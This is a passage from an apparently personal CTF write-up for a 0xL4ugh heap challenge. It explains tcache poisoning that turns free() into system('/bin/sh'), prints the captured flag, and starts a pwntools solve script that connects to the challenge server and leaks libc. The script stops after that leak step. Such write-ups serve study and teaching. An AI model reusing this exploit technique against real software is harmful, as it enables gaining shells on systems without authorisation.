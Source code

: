 ```py
create("/bin/sh") # 8
delete(8)
```

Now, when free(8) is called, its actually calling system("/bin/sh")

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/27ca3875-a191-4079-8cfb-bbb4d08c926b)

> Flag : 0xL4ugh{y3aaaahy000u_C4n_p0is0N_Tc4ch3_us1ng_h34p_0v3rfl0w}

## Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = ELF('./libc-2.31.so')

host = "20.55.48.101"
port = 1339

gdb_script = '''

'''

def debug(p):
	gdb.attach(p)
	p.interactive()

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

def create(data):
	p.sendlineafter(b"Exit\n", "1")
	p.sendline(data)

def delete(idx):
	p.sendlineafter(b"Exit\n", "2")
	p.sendlineafter(b"delete?\n", str(idx))

def edit(idx, data):
	p.sendlineafter(b"Exit\n", "3")
	p.sendlineafter(b"edit?\n", str(idx))
	p.sendline(data)

def read(idx):
	p.sendlineafter(b"Exit\n", "4")
	p.sendlineafter(b"read?\n", str(idx))



# Step 1 : Leak libc
p.sendlineafter(b"Exit\n", "10") # 1
p.sendline("AAAA")
create("AAAA") # 2
delete(1)
read(1)
leak = p.recvline().strip()
```